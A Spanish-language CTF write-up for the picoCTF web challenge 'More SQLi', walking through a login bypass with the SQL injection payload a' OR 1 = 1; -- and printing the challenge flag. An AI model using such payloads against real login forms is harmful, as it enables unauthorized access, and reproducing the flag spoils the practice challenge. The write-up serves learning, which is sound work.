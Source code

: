 ```yaml
---
title: More SQLi
date: 2025-05-14 13:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, more sqli, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>More SQLi
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
{: .prompt-tip }

Como este ejercicio va de injecciones SQL empezamos con el típico '1 = 1' para ver el resultado. 

``` html
username: admin
password: 1 = 1
SQL query: SELECT id FROM users WHERE password = '1 = 1' AND username = 'admin'

```
Viendo esto, creo que podemos intentar injectar con un OR, añadiendo "--" para comentar el resto de la query, etc.
Luego podemos ver como queda la query e ir retocándola.

``` 
SELECT id FROM users WHERE password = 'pass OR 1 = 1' AND username = 'admin'
pass OR 1 = 1 --'

```

Finalmente compruebo que esta funciona. También puedes usar herramientas automáticas como un Fuzzer o SQLMap

``` 
a' OR 1 = 1; --
```


``` html
username: test
password: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
SQL query: SELECT id FROM users WHERE password = 'picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}' AND username = 'test'
```

flag: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}**

Una de SQLi. 
